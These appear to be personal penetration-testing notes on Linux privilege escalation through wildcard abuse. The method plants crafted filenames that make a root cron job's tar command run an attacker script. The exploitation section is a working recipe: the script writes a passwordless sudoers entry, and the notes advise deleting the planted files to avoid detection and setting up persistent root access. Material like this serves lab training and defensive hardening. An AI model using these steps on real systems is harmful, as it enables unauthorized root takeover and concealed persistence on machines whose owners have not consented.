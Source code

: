 https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
### 1. Technique Name:

Wildcard Abuse
### 2. Summary:

Wildcard abuse takes advantage of how the shell expands special characters like `*`, `?`, and `[ ]` before executing commands. When a privileged script or cron job uses a wildcard to reference files, it can be manipulated to inject command-line arguments. This can lead to arbitrary command execution with elevated privileges—commonly via programs like `tar`, `rsync`, `find`, or `chmod` that support user-defined options through filename expansion.
### 3. Conditions / Requirements:

- Writable directory where a wildcard (`*`) is used in a privileged command (e.g., cron job, backup script)    
- The vulnerable command (like `tar`) must support malicious argument injection via filenames
- Ability to create files with arbitrary names (including ones starting with `--`)
### 4. Enumeration Steps:
#### A. Check for Cron Jobs with Wildcards:

```bash
cat /etc/crontab
ls /etc/cron.*
```

→ Look for cron jobs that run commands like:

```bash
tar -zcf /backup/backup.tar.gz *
```
#### B. Identify Vulnerable Utilities:

Examples of commands vulnerable to argument injection via wildcards:

- `tar`    
- `rsync`
- `chmod`
- `chown`
- `cp`, `mv`, etc.

Check for any usage of these tools with `*` in scripts owned by root or other privileged users.
### 5. Exploitation Steps:
#### A. Create Payload Script:

```bash
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
```
#### B. Create Malicious Filenames:

```bash
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh root.sh"
```
#### C. Wait for Cron to Execute:

Let the cron job run (e.g., every minute). The shell expands `*` to include your crafted files:

```bash
cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

Which becomes:

```bash
tar -zcf /home/htb-student/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh root.sh
```
#### D. Escalate with Sudo:

```bash
sudo -l
sudo su
```
### 6. Post-Exploitation Tips:

- Clean up the malicious filenames and payload script to avoid detection:    

```bash
rm -- --checkpoint*
rm root.sh
```

- Use the sudo access to set up persistent root access if needed
- Rotate through other potential cron job targets or repeat technique if multiple wildcard-based scripts are found
### 7. Example / Notes:

- Example Cron Entry:

```bash
*/1 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

- After Exploitation:

```bash
sudo -l
# User htb-student may run the following commands on NIX02:
# (root) NOPASSWD: ALL
```

- Other Useful Wildcard Patterns:    
    - `?` for single character fuzzing    
    - `[a-z]` for controlled ranges    
    - `~` to refer to user home directories    
- Warning: This technique may not work if the command/script escapes or sanitizes filenames, or if the binary is run with full paths instead of `*`.
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Wildcard_abuse #tar